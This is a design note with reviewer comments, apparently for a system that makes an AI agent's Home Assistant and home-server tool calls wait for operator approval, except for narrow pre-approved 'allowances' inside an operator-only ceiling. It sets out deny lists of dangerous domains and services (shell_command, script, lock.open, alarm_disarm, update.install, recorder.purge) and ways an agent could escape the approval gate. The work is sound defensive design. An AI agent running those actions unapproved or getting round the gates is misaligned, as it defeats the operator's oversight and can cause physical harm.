  evaluated against the local clock, not a fixed UTC offset. A window whose
  start equals its end is refused at save. Two windows are not in v1.
* **Expiry** is an epoch; `0` = never; an expired allowance stops matching
  (the page shows it as expired; the operator decides).
* **AZ4 tests:** across midnight, across a DST change (both directions), and
  a window with start == end refused.

#### 7. Profiles and labels: "resolve at apply time"

A **profile** is a named, versioned set of allowance templates. The operator
builds profiles and applies them to an agent instead of redefining the same
allowances.

* **The object.** `allowance_profiles(id, name UNIQUE, description, version,
  created_by, created_at, updated_at, deleted_at)`; templates carry
  `integration, tool, conditions, rate_per_hour, window, expires_at, name`
  (no agent).
* **A template may name a label.** The relayed shape, and the only label
  form in v1:
  * a template's `data.entity_id` condition may be
    `{"label_id": "<registry label id>"}` (the UI picks by display name; the
    **id** is stored). `area_id` and `device_id` are never template values.
  * **At apply time** ("Update agents") the label is resolved through HA's
    label registry to an entity list, and the resulting allowance stores the
    **entity list and each entity's registry id**, never the label. Matching
    is against the stored list (§2), so a call never needs HA and a label
    rename changes nothing.
  * A label's template states **services per domain** (`light: turn_on,
    turn_off`); each pair must be inside the seed's `only` map, never beyond
    it.
  * After resolution the `never` domains and values are filtered out: a
    `script.*` or `automation.*` entity carrying the label is **excluded and
    shown as excluded** on the apply card, not silently allowed.
  * A **failed registry read at apply** refuses the apply with the failing
    template named; nothing is revoked or created.
* **Refresh (the label and pin job).** A periodic job (and the same job that
  re-reads registry pins, BD5) re-resolves each label-sourced allowance:
  * an entity that has **left** the label drops out at once (the stored list
    shrinks, audited);
  * an entity that has **joined** is **held**: it is not added to the
    matching list until the operator accepts it in one click ("label X now
    also includes Y"); until then a call to it gets a card;
  * a **registry id that changed or disappeared** suspends that entity (and
    a line on the page says why) until the operator accepts it;
  * a failed registry read during refresh changes nothing and leaves calls
    matching the stored list; the page shows "label check failed" instead.
* **Applying** a profile creates one allowance per template with
  `profile_id`/`profile_version`; **saving an edit** creates a new profile
  version and leaves every agent alone until **Update agents** is pressed
  (for all listed agents or one), which revokes the old profile allowances
  and creates the new ones, audited.
* **Re-validation at apply time:** every template goes through §2–§4 again,
  because a seed can tighten between save and apply; a failure refuses the
  apply before anything is revoked.
* **Removing a profile** from an agent revokes the allowances it created
  (hand-made allowances are untouched). **Deleting a profile is refused
  while an agent is on it.**

#### 8. AZ2 — an approved config write cannot redefine an allowed entity

An approved F11 `ha_config_write` can turn `switch.x` into a template or
`command_line` switch backed by a script or a shell command. **Preference:
suspend, do not silently keep.** After any approved F11 write:

* the written file's text (after decoding its `!include`s, which F11 already
  parses) is scanned for entity ids — an `entity_id:` key, a
  `<domain>:` block with a `name`, a `template:` block's `unique_id`;
* an allowance entity whose id appears is **suspended** (`suspended_at`,
  `suspended_reason='config_write'`), audited, and the page says "re-confirm
  after a config change"; calls to it get a card until the operator
  re-confirms;
* **if the mapping is incomplete** — the written file defines entities but
  the scan cannot attribute them (a `packages/` file with template blocks,
  a `!include_dir_*`), every allowance for that integration is suspended
  instead. Conservative by construction: an entity defined in YAML inside
  F11's write scope is never silently allowed on the strength of a file
  scan.
* **BD5's widening:** the same suspension applies to any approved write that
  redefines the entity through its config entry — an options-flow or
  config-entry write for the entity's `config_entry_id` from the registry
  (a template helper created in the UI), not only an F11 YAML write. The
  registry gives the `config_entry_id`; the integration's write tools are
  the trigger.
* If the scan cannot map at all (the registry is unreadable), **suspend all
  HA allowances for that integration** and say so; re-confirm re-validates
  the entity and its pin.

#### 9. What the operator and the agent see; P2 does not change

* **Allowances page:** one row per live allowance — agent, tool, conditions
  in plain words, the label it came from (if any), rate, window **and its
  zone**, expiry, uses in the last 24 h, version, Revoke/Re-confirm. A
  suspended allowance is red with the reason; an "expired/revoked/suspended"
  filter shows the rest. One line at the top states the accepted residual:
  **an allowed call changes an entity's state, and HA automations triggered
  by that state run as HA decides — the allowance cannot see them.**
* **The agent's page** lists its allowances, the profile that made them, and
  Revoke.
* **History and the call log** show `allowance #N (name)` in the approval
  column (version in the details), so a call that ran without a card is
  never blank.
* **F6/F18** count it as its own approval bucket, `allowance`, alongside
  `manual`, `plan`, `unattended` and `auto`; Statistics shows it.
* **The agent's tool description** gets one line: "Calls matching one of
  your allowances run without approval." It does not list values — the
  entity list is the operator's object.
* **P2 is unchanged:** `always_gate` still beats `ungated`, including
  `call_service`, the Supervisor actions and admin config writes. An
  allowance is the one sanctioned pre-approval, and only for a seed-declared
  tool. No seed flag is removed to make F27 work.

#### 10. The widened destructive word list, and `_` as a separator

`DESTRUCTIVE_VERBS` keeps `delete`, `remove`, `purge`, `format`, `reset` and
gains `stop`, `shutdown`, `reboot`, `disable`, `unlock`, `disarm`.

**BD1's bug:** `_DESTRUCTIVE_RE` uses `\b`, and `_` is a word character, so
`\bdisarm\b` does not match `alarm_disarm`. The regex changes to treat `_` as
a separator as well —

```python
_DESTRUCTIVE_RE = re.compile(
    r'(?<![A-Za-z0-9])(?:' + '|'.join(DESTRUCTIVE_VERBS) + r')(?![A-Za-z0-9])',
    re.IGNORECASE)
```

— so `alarm_disarm`, `lock.unlock` and `lock.open` are marked. `open_cover`
is also marked (the token `open` is followed by `_`); that over-labels a
cover card, which is the safe direction. Tests use the real service names
(`alarm_disarm`, `lock.unlock`, `lock.open`), not a made-up path.

Effect per seeded integration, as before: Proxmox `stop_vm`,
`stop_container`, `shutdown_vm`, `reboot_vm` now ask; Pi-hole
`disable_blocking` asks; Jellyfin `stop_task`/`stop_transcodes` ask; HA
`call_service` paths for those services are marked (already always-gated);
NPM, Omada, Pulse, Seerr, the Arr tools and the read-only integrations are
unchanged. Decision 1 (`gate_mode='all'` for HA/NPM/Pi-hole/Proxmox/Omada)
remains the separate change.

**AZ6, open for the operator:** Jellyfin's `/System/Restart` still auto-runs
under `destructive`; `restart` is not in the agreed list. Whether to add it
(also marking HA `homeassistant.restart`, a never domain, and any later
restart path) is the operator's answer; no code depends on it.

#### 11. Phase 2, named and not designed

The **wattage rule** ("only if the plug's power sensor reads below X W") is a
phase-2 read precondition on F22's typed `expect` plus a reliable
plug-to-sensor mapping; no field for it is added here. SSH allowances stay
out of scope (gateway allowlists, the read lane, Zero-Trust).

#### 12. What is still open for the security reviewer

1. **The `only` list itself** (§3): the household proposal above is mine,
   not the operator's. Confirm the shape (per-domain allowlist) and say if
   you want `cover`/`media_player`/`climate` in or out of the first list.
2. **AZ2's mapping** (§8): I chose "suspend on a config write, with the
   file scan and the suspend-all fallback". Confirm that the fallback is
   acceptable where the mapping is incomplete, or say if you would rather
   refuse YAML-defined entities outright.

AZ6 (restart) is with the operator.

#### 13. Tests this design adds

* **Conditions:** a matching call runs with `allowance:<id>`, one use, the
  audit row and the History label; a list whose every element is listed; a
  number in range.
* **Every miss is a card, not a denial:** a value outside the set; an extra
  argument; a list with one unlisted element; a number out of range;
  `"1"` vs `1`; `true` vs `1`; a case-mismatched string; a missing required
  path; `data` with a second key; outside the window (midnight and both DST
  directions); over the rate; expired; revoked; suspended; a changed
  registry pin.
* **AZ1:** each of `area_id`, `device_id`, `label_id`, `entity_id: all`,
  `entity_id: none` — in `data` and in `target` — gets a card; a plain
  entity list that is a subset matches; one extra entity does not.
* **BD4:** a bad domain/service charset, a bad entity id, and an entity id
  whose domain is not in the allowance's `domain` values are refused at
  save.
* **Only/never:** each `never` domain refused; `alarm_disarm`, `lock.open`,
  `unlock`, `install`, `purge`, `delete`, `reset` refused on the suffix
  rule; `cover.open_cover` and `cover.stop_cover` allowed by `only` and not
  caught by the suffix rule; a service outside `only` refused at save, at
  apply and at match.
* **BD2:** a `gated` agent with a matching allowance gets a card and no use
  is counted; an `ungated` agent on an `always_gate` tool still gets a card
  (P2).
* **BD3/AZ5:** a call with no agent identity gets a card; a revoked or
  deleted token stops matching at once; a different agent id never matches,
  even with the same name in the arguments.
* **The decision point:** freeze refuses before the check; a non-empty
  tripwire key does too; an allowance does not run a call that would not
  have been gated, and does not count it.
* **Atomicity:** concurrent calls at the rate limit produce exactly the
  allowed number of `allowance_uses` rows (threads, one SQLite file).
* **Versioning:** an edit stops the old version matching at once; revoke
  stops matching and leaves the History rows.
* **Profiles and labels:** apply resolves a label to entities and stores the
  list + registry ids; an edit leaves agents alone until Update agents;
  Update agents revokes and recreates; a re-validation failure refuses the
  apply and revokes nothing; a label join is held until accepted, a leave
  drops at once; a changed registry id suspends; a failed registry read at
  apply refuses and at refresh changes nothing; removing a profile revokes
  its allowances; deleting a profile in use is refused.
* **AZ2/BD5:** after an approved config write that defines an allowed
  entity, that allowance is suspended and its calls card until re-confirmed;
  an incomplete mapping suspends all HA allowances; a config-entry write for
  the entity's `config_entry_id` suspends the same way.
* **The destructive list:** real names (`alarm_disarm`, `lock.unlock`,
  `lock.open`) marked; `open_cover` marked too; `enable_blocking` and
  `/status/start` not marked.
* **AZ3:** every seeded integration without the seed field reports "not
  allowable" in the Allowances page data.

`bash scripts/verify.sh`: `2800 passed, 22 skipped, 8 warnings in 571.03s
(0:09:31)`.

### Reviewer notes (main feature reviewer, 2026-11-12, design round 1)

A clear note, and it follows the seven decisions. I agree with both of the smaller decisions: an ambiguous match gets a card plus `allowance_ambiguous`, and an allowance is not consulted when the call would not be gated. The security reviewer has already answered the label question in chat (relayed below, to be confirmed in their review), so the next round can fold it in.

**The security reviewer's answer on labels (relayed 2026-11-12): neither A nor B as written; "resolve at apply time".**
* A label may be used to *write* a template.
* When the template is applied ("Update agents"), the label is resolved to an entity list. That list is stored on the allowance and shown, and calls match the stored list, never the label.
* A periodic refresh re-resolves the label:
  * an entity that has left the label drops out at once;
  * an entity that has joined is held until the operator accepts it in one click ("label X now also includes Y"); until then a call to it gets a card.
* The never domains and values are filtered after resolution. A `script.*` or `automation.*` entity carrying the label is excluded and shown as excluded.
* Services are stated per domain in a label template.
* The match is on the label **ID**, not its display name. A failed registry read means a card.

This keeps §2's "two forms" for *matching*. The label exists only in the template and in the refresh.

**AZ1 (must, from the security reviewer): the call's target must be plain entity ids.** `call_service` also accepts `area_id`, `device_id` and `label_id`, which HA expands when the call runs. The allowance matches only when the target is a plain entity-id string or list that is a subset of the stored list, and any expanding key gets a card. §2 already allows only `entity_id` in `data`. State it as a named rule with a test for each expanding key, in `data` and in a top-level `target`.

**AZ2 (must, from the security reviewer): F11 can redefine an allowed entity.** An approved config write can turn `switch.x` into a template switch backed by a script or a `shell_command`. Either:
* an F11 write to a file that defines an allowed entity suspends that allowance until it is re-confirmed (preferred, if entities can be mapped to their defining files), or
* entities defined in YAML inside F11's write scope cannot be allowed at all.

Say which, and how the mapping is done.

**AZ3 (should): say plainly that v1 is HA only.** Only `call_service` carries the seed field, and handler tools are not allowable (§3), so the NPM and Pi-hole handlers are out. Under decision 1 the other four integrations then have no allowable tool in v1: every write asks. Add one sentence and one row per integration to the status line, so the operator is not surprised. A later chunk can give each seed its own field.

**AZ4 (should): local time.** The window is the dashboard host's local time. State that, show the zone on the page, and test across midnight and a DST change (§6 already covers the midnight case).

**AZ5 (should): a revoked or deleted agent token stops matching at once.** The token-deleted case is covered; add revoked, as F16 AW2 did.

**AZ6 (operator question, asked by the reviewer): `restart`.** Jellyfin's `/System/Restart` still auto-runs under `destructive`. Adding `restart` to the list would also mark HA `homeassistant.restart` (already a never domain) and any later restart path. Waiting for the operator's answer.

Next: DeepSeek folds the label shape, AZ1–AZ5 (and AZ6 once answered) into the note; then the security reviewer reviews the note.

### Reviewer notes (security reviewer, 2026-11-12, design round 1 at `ae67874`)

**The relayed label shape is what I meant.** One addition to it: BD5's
registry-ID pin applies to label-resolved entities too. AZ1 and AZ2 stand
as relayed, with the additions below.

The rest of the core is right and I accept it:
* two exact condition forms;
* absent-or-default for everything not named;
* `data` limited to `entity_id`;
* handler tools out;
* the decision point after every refusal;
* the rate check and the insert in one `BEGIN IMMEDIATE`;
* a use counted before the call;
* an edit is a new version;
* every miss is a card, not a denial;
* ambiguous matches get a card;
* P2 is unchanged.

Five items need folding before the code round.

**BD1 (must): the `never` lists miss real HA services. Make `call_service`'s
domains and services an allowlist.**
* HA's service is `alarm_control_panel.alarm_disarm`, not `disarm`. The
  `never.service` check compares whole values, so `alarm_disarm` is not
  refused.
* `DESTRUCTIVE_VERBS` misses it too. `_DESTRUCTIVE_RE` uses `\b`, and `_`
  is a word character, so `\bdisarm\b` does not match inside `alarm_disarm`.
  The §13 test uses a path HA does not have, which is why it passes.
* `lock.open` unlatches a door just as `unlock` does, and it is not listed.
* The domain denylist cannot keep up with HA's surface. The following are
  all callable with a `data` that holds only `entity_id`, or with none at
  all:
  * `update.install`, which installs firmware or a Core update;
  * `recorder.purge` / `purge_entities`, which delete HA's own history;
  * the integration-management services of `zha` / `zwave_js`;
  * `pyscript.*`, and other custom integrations' services, which run code
    that is defined elsewhere.

  A new custom integration adds services that a denylist written today has
  never heard of.
* **The shape I would accept:**
  * The seed field carries `only`: a map from entity domain to its allowed
    services. For example: `light`, `switch`, `fan` and `input_boolean`
    with `turn_on`/`turn_off`/`toggle`; `cover` with open/close/stop;
    `media_player`; `climate` with its non-data services. The exact list is
    the operator's.
  * A domain or service outside `only` is refused at save, at apply and at
    match.
  * `never` stays as a second check, matched on `_`-separated tokens, so
    `alarm_disarm` contains `disarm`. `lock.open` and the domains `update`
    and `recorder` are added to it.
  * A label template's "services per domain" then picks from `only`, never
    beyond it.
* Also fix `_DESTRUCTIVE_RE` so `_` counts as a separator, and test it with
  real service names: `alarm_disarm`, `lock.unlock`, `lock.open`. This is
  card labelling only, since `call_service` is always gated, but the
  label should be right.

**BD2 (must): an "always ask" setting on the agent beats the allowance.**
* §5 reads the allowance at step 6, but the agent's `gated` override at
  step 7. So an operator who sets an agent to `gated` because they want to
  see everything it does still gets allowance auto-runs.
* That contradicts the rule F12 and F22 already use: `force_jit` / approval
  mode skips every auto path (the read lane, the plan claim, overrides).
* Read the agent's `gated` override, and any approval mode that applies to
  tool calls, before the allowance. When either is set, the allowance is not
  consulted, and nothing is counted or audited as a use.
* Test: a `gated` agent with a matching allowance gets a card.

**BD3 (must, with AZ5): the agent is the verified token, read for every
call.**
* An allowance matches only when the call's agent is the MCP token
  `_run_tool` authenticated, looked up by `agent_tokens.id` with
  `revoked = 0` on every call (never a cached copy).
* No agent name, session or header from the call's arguments counts.
* A call with no agent identity never matches. That is F16's AW5 shape: a
  caller with no agent must not be read as anyone, least of all the
  operator.
* Test: a call with no identity gets a card, and so does a revoked token.

**BD4 (should): validate the values themselves at save.**
* `domain` and `service` are rendered into the URL path, so each listed
  value must match `^[a-z0-9_]+$`.
* Each `entity_id` must match `^[a-z0-9_]+\.[a-z0-9_]+$`, and its domain
  prefix must be one of the allowance's `domain` values. That also refuses
  HA's comma-separated string form and `all` / `none`.
* AZ1's rule must name `entity_id: all` and `none` explicitly beside
  `area_id`, `device_id` and `label_id`. All five expand when the call runs.

**BD5 (should): pin each entity to its registry entry, and widen AZ2.**
* An entity ID can be reused: delete a plug, and a new device can be renamed
  to the same `switch.heater`.
* Store the entity registry's `id` beside each entity ID when the
  allowance is saved, and again when a label is resolved. Calls still match
  on the entity ID with no HA read. The refresh (the same job as the label
  refresh) suspends an entity whose registry entry changed or disappeared,
  until the operator accepts it again.
* AZ2's suspension should cover any approved write that redefines the
  entity, not only an F11 YAML write: for example an options-flow or
  config-entry write for the entity's `config_entry_id` (a template helper
  created in the UI). The registry gives the mapping for those.
* For YAML-defined entities: if F11 cannot map an entity to its file
  reliably, take AZ2's second branch and make entities defined in YAML
  inside F11's write scope not allowable.

**Accepted residual, to state in the note:** an allowed call changes an
entity's state, and HA automations triggered by that state run as HA
decides. "Turn on `light.x`" can start an automation that does anything.
The allowance cannot see that, and the operator owns their automations. Say
so on the Allowances page in one line.

The two smaller decisions are agreed: an ambiguous match gets a card, and an
allowance is not consulted for a call that would not be gated. AZ3, AZ4 and
AZ6 are the feature side's; I have no security view on AZ6's `restart`
beyond BD1's token matching.

Next: DeepSeek folds the label shape, AZ1–AZ5 and BD1–BD5 into the note,
then security re-reads §2–§5 and the label section.

### Security input for design round 3: the operator-editable `only` ceiling (security reviewer, 2026-11-14)

The operator's decisions are fine. The defaults are light, switch, fan,
input_boolean and media_player, with cover and climate off, and
`restart` (AZ6) becomes a destructive word. An editable ceiling is
acceptable if it keeps the property BD1 bought: **nothing outside a
shipped allowlist can ever be allowed, and an agent can never move the
ceiling.** Round 3 should design the following.

**BT1 (must): the ceiling is operator-only, with no agent or MCP path.**
* The ceiling endpoints take a dashboard session, CSRF and a confirm, and
  nothing else.
* No MCP tool, agent proposal, profile, plan, F21 internal tool or
  integration call can read-modify-write it.
* A profile or proposal that names an action outside the ceiling is
  refused at save and at apply, as today. It never offers "add to
  ceiling".
* Test: an AST or route check that the only writers of the ceiling table
  are the session-authenticated routes.

**BT2 (must): the catalogue is code, and the DB is a selection from it.**
* The catalogue of `(domain, service)` rows, each with its risk text, is
  one shipped constant.
* The DB stores only which catalogue rows are enabled, by catalogue id.
* At save, apply **and match**, a stored row is honoured only if it is
  still in the catalogue. That also covers an old DB that names a row a
  newer release removed, a hand-edited DB, or a bad restore. Anything else
  is ignored, and the allowance does not match.
* `never` (domains, services and the `_<value>` suffix rule) is applied
  **after** the ceiling, every time.
* A test asserts that no catalogue row is caught by `never`, so a bad
  catalogue edit fails CI instead of being silently dropped.
* New catalogue rows in a later release ship **disabled**. Only the
  first-run seed enables the defaults, guarded by a marker (as X7 does).
* An empty ceiling means nothing is allowable. It is never quietly
  re-seeded.

**BT3 (must): destructive words cap allowances too, and adding one
suspends.**
* An allowance is checked before the gate (§5 step 7). As written, an
  allowance therefore skips the `destructive` verb gate for a service the
  word list calls destructive.
* "Destructive" should mean "a human sees it" whichever path is taken. So
  a catalogue row whose service matches a destructive word, built-in or
  operator-added, cannot be enabled in the ceiling and never matches an
  allowance.
* An operator-added word then takes the same route as a removal:
  * a confirm that lists the allowances it will suspend;
  * suspension;
  * an audit row.
* Operator-added words:
  * a charset of `[a-z0-9_]`, 3 to 32 characters;
  * matched with the BD1 tokenisation, where `_` separates words, not
    `\b`;
  * removable, but a removal never un-suspends anything (BT4).
* Built-in words are read-only.

**BT4 (must): widening never re-activates anything silently.**
* Re-enabling a ceiling row, or removing an operator-added destructive
  word, does **not** resume the allowances that an earlier narrowing
  suspended. The operator resumes each one, as § "Editing a profile
  never changes agents silently" already requires.
* Narrowing is still enforced at match even if the suspend step fails
  half way. The ceiling read at match is the control, and the suspension
  is the record.

**BT5 (should): make widening visible outside the dashboard.**
* Any change that widens the ceiling (enabling a row) sends an F-notify
  message ("ceiling widened: cover.open_cover by \<operator\>") as well as
  the audit row.
* A stolen session can both widen the ceiling and create an allowance.
  A second channel is the cheapest way for the real operator to notice.
* No password re-prompt: that keeps the bar the same as creating an
  allowance.

**BT6 (should): scope and risk detail.**
* The ceiling is **per HA integration**, not global, so a second HA
  instance does not inherit the first one's widening.
* Risky catalogue rows carry their risk text in the catalogue, and the
  confirm shows it word for word:
  * `cover.open_cover`, which can be a garage door, gate or door;
  * `climate`;
  * `media_player` on a device that plays to a room.
* At allowance creation, an entity whose `device_class` is garage, gate,
  door or lock-like shows that risk again, per entity.
* `switch` is a default, and a switch can power anything (a heater, a
  pump, a server, a siren). The allowance UI should show the entity's
  friendly name and device class before the operator saves, not just its
  id.
* The audit row stores each change's before and after (catalogue ids,
  words) and the actor. The page shows the ceiling's history.

**Tests to add in round 3:**
* An agent or MCP path cannot change the ceiling.
* A DB row naming a non-catalogue service never matches.
* A catalogue row under `never` fails CI.
* Enabling a row that a destructive word catches is refused.
* Adding a word suspends its dependents and lists them in the confirm.
* Re-widening resumes nothing.
* An empty ceiling allows nothing and is not re-seeded.
* A second HA integration has its own ceiling.
* Widening sends the notify message.

### Round 3 — the ceiling is the operator's, and it is configurable (2026-11-15)

**Status: design note only — no code.** The operator answered the three open
points and security sent BT1–BT6 for this round; all are folded here.

* **(a) the default ceiling.** Lights, smart plugs and switches, fans and HA
  helpers may be allowed, with on/off/toggle; media players with on/off/play/
  pause/stop. **Covers and climate are off by default.**
* **(b) AZ6.** `restart` joins the destructive words.
* **(c) the ceiling is configurable in the UI, and it must be intuitive.**

This round replaces §3's seed `only` map (the map now ships as the catalogue,
and the effective ceiling is in the database) and answers AZ6. Everything
else in rounds 1 and 2 stands. The security conditions BT1–BT6 are folded in
§§2–6 and 8; §9 lists what is still open.

#### 1. Three words: ceiling, allowance, match

**Ceiling** — the outer limit. Per integration, which device types and which
actions an agent could ever be allowed to take without a card. It never
approves anything by itself.

**Allowance** — one narrow pre-approval *inside* the ceiling: this agent,
this tool, these exact entities and these exact actions, with its own rate,
window and expiry.

**Match** — a call runs without a card only when it matches a live allowance
**and** the ceiling still allows its type and action. Anything else asks.
Turning a type on in the ceiling creates no allowance; it only stops the
ceiling from being the reason a save is refused.

The paragraph at the top of the section, shared with X3's explanation:

> The ceiling is the outer limit: it lists, per integration and device type,
> the actions an agent may ever be allowed to take without a card. An
> allowance is one narrow pre-approval inside that ceiling — this agent,
> these exact entities and these exact actions, with its own rate, window and
> expiry. A call runs without a card only when it matches a live allowance
> and the ceiling still allows its type and action; everything else asks.
> The ceiling never approves anything by itself.

X3's shared explanation keeps its own sentence about gate mode, always-gate
and the agent override; both texts use these three words with these
meanings, and a text test asserts the paragraph is the same constant.

#### 2. The catalogue ships with the code

One module constant, `ALLOWANCE_CATALOGUE`, is the only source of device
types, actions, plain names, risk text and defaults (BT2). The API accepts
only a catalogue id it knows; there is no free-text service and no way to add
a type from the UI. The database stores a **selection from the catalogue**,
by catalogue id — never a name the catalogue does not contain.

| Integration | Catalogue id | Row name | Actions (service → label) | Default | Risk |
|---|---|---|---|---|---|
| `ha` | `light` | Lights | `turn_on` → Turn on; `turn_off` → Turn off; `toggle` → Toggle | **on** | — |
| `ha` | `switch` | Smart plugs and switches | `turn_on` → Turn on; `turn_off` → Turn off; `toggle` → Toggle | **on** | — |
| `ha` | `fan` | Fans | `turn_on` → Turn on; `turn_off` → Turn off; `toggle` → Toggle | **on** | — |
| `ha` | `input_boolean` | HA helpers | `turn_on` → Turn on; `turn_off` → Turn off; `toggle` → Toggle | **on** | — |
| `ha` | `media_player` | Media players | `turn_on` → Turn on; `turn_off` → Turn off; `media_play` → Play; `media_pause` → Pause; `media_stop` → Stop | **on** | — |
| `ha` | `cover` | Covers: blinds, garage doors, gates | `open_cover` → Open; `close_cover` → Close; `stop_cover` → Stop | **off** | **Physical security and safety.** Opening a garage door or gate is a physical access event; a closing blind or door can trap a person or an animal. |
| `ha` | `climate` | Heating and climate | `turn_on` → Turn on; `turn_off` → Turn off | **off** | **Cost and comfort.** Heating or cooling runs for as long as the device decides; a stuck call costs money and can be unsafe. |

* **Fans is its own row** because the operator's default turns it on; folding
  it into switches would hide it.
* **Cover and climate are the two risky rows in v1.** Their risk text lives
  in the catalogue and the confirm shows it word for word (BT6). At
  allowance creation, an entity whose `device_class` is a garage door, gate,
  door or lock-like shows the same warning per entity; a `switch` shows its
  friendly name and device class before the operator saves (a switch can
  power a heater, a pump, a server or a siren).
* **Anything that opens or unlocks is risky by definition.** `lock`, `valve`,
  `script`, `automation` and the other `never` domains are not in the
  catalogue, so they cannot be allowed at all. A later type that can open or
  unlock ships with `risk` set, and cannot be enabled without the ack.
* **A destructive word caps the catalogue (BT3).** A catalogue row whose
  service matches a built-in or operator-added destructive word can never be
  enabled and never matches an allowance. This collides with the operator's
  list: `cover.stop_cover` and `media_player.media_stop` contain the built-in
  word `stop` under BD1's tokenisation. As written, BT3 makes both
  unavailable; the design takes BT3 as the control and does **not** quietly
  exempt them. §9 question 1 asks security for the narrow exemption.
* **`only` moves out of the seed field (BT2).** `integration_tools.allowance_json`
  keeps `constrainable` and `required`; the effective ceiling is the database
  selection. A tool is allowable when the integration has at least one
  enabled catalogue row.

#### 3. Storage: a selection seeded once, never re-seeded (BT2)

```
allowance_ceiling(
  integration   TEXT NOT NULL,             -- 'ha'; a second HA instance gets its own rows (BT6)
  catalogue_id  TEXT NOT NULL,             -- e.g. 'cover.open_cover'; must exist in ALLOWANCE_CATALOGUE
  enabled       INTEGER NOT NULL DEFAULT 0,
  updated_by    TEXT,                      -- the session user, '' for the seed
  updated_at    INTEGER NOT NULL DEFAULT 0,
  PRIMARY KEY (integration, catalogue_id)
)
allowance_never_words(
  word      TEXT PRIMARY KEY,              -- ^[a-z0-9_]{3,32}$
  added_by  TEXT NOT NULL,
  added_at  INTEGER NOT NULL
)
```

* **Seeded once** from `ALLOWANCE_CATALOGUE` by the meta marker
  `allowance_ceiling_v1`, with each row's default and an
  `allowance_ceiling_seeded` audit row. `INSERT OR IGNORE` makes a restart
  idempotent and never overwrites an operator's flag.
* **New catalogue rows in a later release ship disabled.** The first-run
  seed is the only thing that applies a catalogue default; a later version
  adds its new rows with `enabled = 0` and the page marks them "new — off"
  (BT2). There is no "apply defaults again" path.
* **An empty ceiling means nothing is allowable.** It is never quietly
  re-seeded from the catalogue: a missing row, a hand-edited DB or a bad
  restore fails closed (BT2).
* **A stored row is honoured only while it is still in the catalogue.** At
  save, apply and match the id is looked up in `ALLOWANCE_CATALOGUE`; a row
  an older DB has and a newer release removed is ignored, and the allowance
  does not match (BT2). Nothing is deleted from the DB, so the audit trail
  keeps the id.
* **`never` stays code constants**, not rows: the domains (`script`,
  `automation`, `shell_command`, `hassio`, `homeassistant`, `python_script`,
  `rest_command`, `notify`, `update`, `recorder`, `pyscript`) and the service
  words (`disarm`, `unlock`, `install`, `purge`, `delete`, `reset`). They are
  shown read-only with a reason, applied **after** the ceiling every time,
  and no ceiling row can override them. A CI test asserts that no catalogue
  row is caught by `never` (BT2).
* **Destructive words** are the built-ins (`delete`, `remove`, `purge`,
  `format`, `reset`, `stop`, `shutdown`, `reboot`, `disable`, `unlock`,
  `disarm`, and now `restart`) plus the operator's words. Built-ins are
  read-only; only an operator-added word can be removed, and only by the
  operator who added it. They are matched with BD1's tokenisation (`_`
  separates). They apply to catalogue services too (BT3, §2).

#### 4. Where the ceiling is enforced (BT1–BT4)

Checked at **save**, at **apply** and at **match**. A ceiling change takes
effect for the next call; nothing is cached across calls.

1. **Save** (an allowance or a profile template). The catalogue id must be
   enabled for the integration, in addition to the `constrainable`/
   `required`/`never` checks of round 2, and the service must not match a
   destructive word. The refusal names the type and action:
   `ceiling_disabled: cover.open_cover`.
2. **Apply** ("Update agents"). The ceiling is re-read in the same
   transaction; a template the ceiling no longer allows refuses the whole
   apply before anything is revoked or created. A template never offers "add
   to ceiling".
3. **Match.** The allowance's domain and service are looked up in the
   catalogue and in the DB. A disabled row, a row that is no longer in the
   catalogue, a destructive-word match, or a DB read error means **no
   match** — the ordinary card, never a denial. A read error also writes at
   most one `allowance_ceiling_unreadable` audit row per hour.

**Order of the checks:** the `never` lists and destructive words after the
ceiling, then the allowance. BD2 still short-circuits first: an agent set to
ask for this tool never consults the allowance, so it never consults the
ceiling either. Freeze, the tripwire freeze and the existing refusals keep
their places. **The ceiling does not gate:** a call that matches no allowance
goes to the ordinary gate exactly as today.

**BT4 — narrowing is the control, suspension is the record.** Re-enabling a
row, or removing an operator-added word, never resumes an allowance. The
ceiling read at match still refuses even if the suspend step half-failed;
the rows and the suspensions are written in one transaction, and a failed
transaction leaves both unchanged.

**BT1 — operator-only.** The ceiling is written only by the session-
authenticated routes in §6: a dashboard session, CSRF and a confirm. No MCP
tool, agent proposal, profile, plan, F21 internal tool or integration call
can read, modify or write it. `run_tool` reads it; it never writes it. An
AST/route test asserts that the only writers of `allowance_ceiling` and
`allowance_never_words` are those routes.

#### 5. Changing it in the UI

**Where.** The Allowances page, above the list: one section, **"What agents
may ever be allowed to do"**, per integration. HA in v1; a second HA
integration has its own section (BT6). Another integration shows "This
integration has no ceiling yet — every write asks"; the Integrations page
(X3) links here.

**The section.**

* The shared paragraph from §1 at the top, in plain words.
* One row per device type. The row shows the plain name, a short state line
  ("on by default", "off by default", "changed 2026-11-15 by operator"), and
  the risk text in place when the type is risky. A type whose service matches
  a destructive word shows "unavailable: destructive word `stop`" and its
  checkboxes are disabled (BT3).
* The actions are checkboxes with plain labels from the catalogue ("Turn
  on", "Open", "Play"). No text input for a service anywhere.
* **Risky rows:** turning the type on or ticking an action on a risky row
  opens a confirm that shows the catalogue's risk text word for word ("Covers
  can open a garage door or gate. Enabling this lets an allowance open it
  without a card."). The confirm carries `risk_ack: true`; the server refuses
  the request without it, so the browser is not the control.
* **At allowance creation** the entity's friendly name and `device_class` are
  shown before saving; a garage, gate, door or lock-like class repeats the
  risk (BT6).
* **Save** is one button per integration and sends the whole enabled set.
  The server computes before/after, validates the catalogue, applies the
  words, writes the rows and the audit row in one transaction, and answers
  409 with `affected` when the change disables something existing allowances
  use.
* **Disabling a type or action in use:** the confirm lists every affected
  allowance **by name** — agent, allowance name, the entities it covers —
  and says "they will be suspended, not deleted". Confirming (`confirm:
  true`) suspends each with `suspended_reason='ceiling_removed'` and audits
  every suspension plus the ceiling change. Nothing is deleted; History
  keeps the ids.
* **Re-enabling never reactivates.** A suspended allowance stays suspended;
  the page lists each with **Resume**, which re-validates the ceiling, the
  registry pins and `never` before it resumes, and audits
  `allowance_resumed`. There is no "resume all" in v1 (question 4).
* **Adding a destructive word** (BT3) takes the removal route: the confirm
  lists the enabled catalogue rows it will switch off and the allowances it
  will suspend; confirming disables those rows, suspends those allowances and
  audits both. Removing the word later never resumes anything (BT4).
* **Widening is announced (BT5).** Any change that enables a row sends the
  existing notify webhook (`send_notify('ceiling', …)`, a new event type in
  Settings → Notifications, on by default) as well as the audit row. A stolen
  session can widen the ceiling and create an allowance; the second channel
  is how the real operator notices. No password re-prompt: the bar stays the
  same as creating an allowance.
* **The never lists** are two read-only blocks, one line of reason each:

  | Domain | Why it can never be allowed |
  |---|---|
